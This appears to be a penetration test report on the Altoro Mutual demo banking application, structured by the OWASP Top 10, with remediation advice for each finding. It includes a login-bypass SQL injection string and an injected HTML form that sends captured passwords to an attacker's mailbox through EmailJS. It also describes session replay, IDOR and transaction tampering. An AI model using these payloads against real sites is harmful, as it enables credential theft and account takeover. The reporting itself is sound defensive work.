Black-box assessment of the Altoro Mutual online banking application, structured
against the OWASP Top 10. Each finding records the observation, the supporting
evidence, and the remediation advice issued with it.

## 1. Broken Access Control

### Vertical Privilege Escalation

- The administrator password is hardcoded in the application, which is enough on its own to escalate from an unauthenticated visitor to full administrative access.





**Recommendation:**

> Default credentials such as `admin:admin` should never survive into production. They are a development leftover and become a critical exposure the moment the application is reachable from the internet. Disable or re-secure every default account before deployment. Administrative accounts should be held to a strong password policy: a 12–18 character minimum, a mix of alphanumeric and special characters, and scheduled rotation.
> 

---

- Copying the `JSESSIONID` cookie from an authenticated user and replaying it grants access to that user's banking view. Captured in full, the cookie is sufficient to assume the session.





**Recommendations:**

> Session cookies such as `JSESSIONID` need protection against theft and replay. Set the `HttpOnly` and `Secure` flags, enforce `SameSite`, and regenerate the session identifier on every login and privilege change. Add server-side checks for concurrent sessions and for anomalies such as a change of source IP or user agent, and expire sessions after a short idle timeout, so that a copied cookie alone no longer confers access.
> 

### IDOR

- The administrative user is scoped to accounts `8000` and `8001`. Because the account identifier in the URL is never validated against the authenticated session, transaction history for accounts outside that scope is readable.







**Recommendation:** 

> Authorization for account resources must be enforced server-side by confirming that the authenticated principal owns the requested account. User-supplied parameters cannot be trusted as an access decision. Apply object-level access control so that accounts such as `8000` and `8001` are unreachable by users without the corresponding entitlement.
> 

### CSRF

- Altering the `Referer` and `Origin` headers on a transaction-filter request still returns `200 OK`, indicating the absence of origin validation.
- This points to CSRF exposure, though no working exploit chain was established within the engagement window.



**Recommendation:**

> Introduce anti-CSRF tokens on every state-changing request and set session cookies with `SameSite=Strict`, `HttpOnly`, and `Secure`. Avoid `GET` for operations with side effects, and validate the `Origin` and `Referer` headers where they are available.
> 

## 2. Cryptographic Failures

- The application advertises SSL protection, but is served exclusively over HTTP, where no such protection exists.



**Recommendation:**

> Serve the application over HTTPS with TLS 1.3 to protect data in transit.
> 

---

- Account details and balances are transmitted with Base64 encoding alone. Encoding is not encryption; the values carry no integrity protection and are trivially reversible.



- Decoding the parameter exposes the account details being transmitted verbatim.



**Recommendation:**

> Base64 is an encoding, not a protection, and must not be relied on for account data. Protect sensitive values with a strong cipher such as AES-256, carry all traffic over HTTPS, and establish proper key management so that both confidentiality and integrity are preserved in transit.
> 

## 3. Injection

### HTML

- HTML supplied through the search field is returned unescaped and rendered by the browser, confirming HTML injection.
- The payload below illustrates the impact: an injected credential form that exfiltrates what the victim types to an attacker-controlled mailbox.

```html
<!DOCTYPE html>
<html>
<head>
  <title>Form Submission with Inline JS</title>
  <script src="https://cdn.emailjs.com/dist/email.min.js"></script>
</head>
<body>

<form id="myForm">
  <label>Username:</label><br>
  <input type="text" name="username" required><br>

  <label>Email:</label><br>
  <input type="email" name="email" required><br>

  <label>Password:</label><br>
  <input type="password" name="password" required><br><br>

  <button type="submit">Submit</button>
</form>

<script>
(function(){
  emailjs.init("YOUR_PUBLIC_KEY"); // from EmailJS dashboard
})();

function sendEmail() {
  var params = {
    username: document.getElementById("username").value,
    email: document.getElementById("email").value,
    password: document.getElementById("password").value
  };

  emailjs.send("YOUR_SERVICE_ID", "YOUR_TEMPLATE_ID", params)
    .then(function(response) {
       alert("Email sent successfully!");
    }, function(error) {
       alert("FAILED...", error);
    });
}
</script>

</body>
</html>
```



**Recommendation:**

> Validate user input on the server and encode it contextually on output rather than inserting it into the page as markup. Normalise input before inspection so that obfuscated and alternative character representations are covered by the same checks.
> 

### SQL

- A probe payload in the login form's username field returns a database error, confirming that the field reaches the query unsanitised.



- Refining the payload authenticates the session as the administrator with no knowledge of the password.

```sql
'OR 1 = 1--
```




- The backing query is presumably shaped like the statement below. The injected quote closes the username literal, `OR 1 = 1` makes the predicate universally true, and the trailing `--` comments out the password comparison entirely.

```sql
SELECT <AltoroAccount> FROM <table_name> WHERE username = "" AND password = ""
```

- With the bypass in place, additional accounts and stored credit card data become reachable, none of which were accessible beforehand.



**Recommendation:**

> Use parameterised queries for every database interaction and validate input against an expected format. Return generic errors and normalise response timing so that error-based and time-based blind injection yield no signal. Restricting the application's database account to the minimum set of operations it needs limits the impact if injection is reached by another route.
> 

## 4. Insecure Design

- Hardcoded weak credentials for a privileged account.


**Recommendation:**

> Default credentials such as `admin:admin` should never survive into production. They are a development leftover and become a critical exposure the moment the application is reachable from the internet. Disable or re-secure every default account before deployment, hold administrative accounts to a strong password policy with rotation, and require multi-factor authentication for all privileged access.
> 

---

- The administrative user is scoped to accounts `8000` and `8001`, yet the unvalidated account identifier in the URL exposes transaction history for accounts outside that scope.


**Recommendation:** 

> Authorization for account resources must be enforced server-side by confirming that the authenticated principal owns the requested account. User-supplied parameters cannot be trusted as an access decision. Apply object-level access control so that accounts such as `8000` and `8001` are unreachable by users without the corresponding entitlement.
> 

---

- Not directly exploitable, but documenting a decades-old browser as a requirement is itself a design weakness.


**Recommendation:**

> Recommending an obsolete browser pushes users onto software that no longer receives patches and lacks support for modern security protocols. Update the stated technical requirements to match currently supported browsers and transport protocols, removing the exposure that deprecated and unpatched client features carry.
> 

---

- A transaction can be intercepted in flight and rewritten to any destination account and any amount. The server performs no integrity check on what it receives, so a fraudulent transfer completes.





